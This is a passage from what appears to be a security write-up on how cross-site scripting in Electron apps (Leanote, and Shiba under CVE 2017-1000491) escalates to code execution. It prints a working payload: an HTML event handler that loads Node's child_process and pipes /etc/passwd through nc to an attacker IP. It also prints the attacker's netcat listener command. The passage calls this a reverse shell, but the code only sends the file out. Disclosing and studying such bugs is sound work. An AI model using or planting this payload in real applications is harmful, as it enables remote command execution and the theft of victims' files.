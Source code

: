 PoC code was presented by using the [child_process](https://nodejs.org/api/child_process.html) module from the built-in
Node.js modules in order to get a reverse shell connecting back to the attacker's machine and stealing the victim's
/etc/passwd file.

Attacker launched from command line:: ```nc -l -p 1337 > passwd.txt```\\
Attacker creates a new favourite note with a crafted payload to the victim's notebook:
```
<s <onmouseover="alert(1)"> <s onmouseover="const exec= require('child_process').exec;
exec('nc -w 3 192.168.8.100 1337 < /etc/passwd', (e, stdout, stderr)=> { if (e instanceof Error) {
console.error(e); throw e; } console.log('stdout ', stdout);
console.log('stderr ', stderr);});
alert('1')">Hallo</s>
```
If this is not the easiest code execution you have ever seen, then I don't know what is!

![](/assets/img/electron/leanote.png "Leanote")

## PoC: Shiba - rich markdown live preview app

Reported: 25, Nov, 2017 v1.1.0\\
Fixed: 30, Nov 2017 (version v1.1.1)

Shiba is a markdown editor, where the vulnerable field happened to be the file content field (**CVE 2017-1000491**) itself.
So if the attacker manages to trick the victim to open any kind of crafted file within the Shiba app, it's game over.
Let's use the same PoC code as in the previous example to illustrate better the essence of how easily XSS can evolve
into code execution in Electron apps.
